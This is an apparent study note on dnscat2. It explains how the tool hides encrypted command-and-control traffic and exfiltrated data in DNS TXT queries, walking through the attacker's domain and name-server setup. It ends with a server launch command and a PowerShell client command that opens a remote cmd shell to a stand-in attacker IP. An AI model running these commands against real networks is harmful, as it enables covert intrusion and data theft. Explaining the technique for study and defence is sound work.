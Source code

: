 

- Dnscat2 is a tunneling tool that uses DNS protocol to send data between two hosts. 
- It uses an encrypted C2 channel and sends data inside TXT records within the DNS protocol. 
- Most Domain environments will have their own DNS server that resolves Domain to IP and route the traffic to external DNS servers.
- However, with dnscat2, the address resolution is requested from an external Server. When Local DNS tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request. 




#### BreakDown of how Dnscat2 works with an example

1. Suppose you're inside a corporate network. Most corporate networks have their own DNS server. If local DNS resolution fails, the request will be forwarded to external DNS servers. 
2. Dnscat2 abuses this functionality to extract data via the TXT reccord.
3. The attacker sets up a domain (malicious.xyz) , then sets up a dnscat2 server and configures the NS record of the domain to point to it (dnscat2 server). The attacker’s DNS server can now receive **raw DNS queries** for  ` *.malicious.xyz.`
4. The attacker runs dnscat2-client, which crafts fake DNS requests that **look like queries**, but actually carry **data or command results**.
5. Since, the local DNS server doesn't know how to resolve the requested hostname, it forwards the request to the external DNS server, which is owned by the attacker.
6. The attacker receives the DNS request, and extracts the data out of the TXT field. 




#### Syntax

1. Setting up the Server

```python
sudo ruby dnscat2.rb --dns host=<AttackerIP>,port=53,domain="attacker.local" --no-cache
```



2. Connecting to the server from the target machine

```powershell
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSServer <AttackersIP> -Domain attacker.local -PreSharedSecret <SecretReceivedFromTheServer> -Exec cmd
```


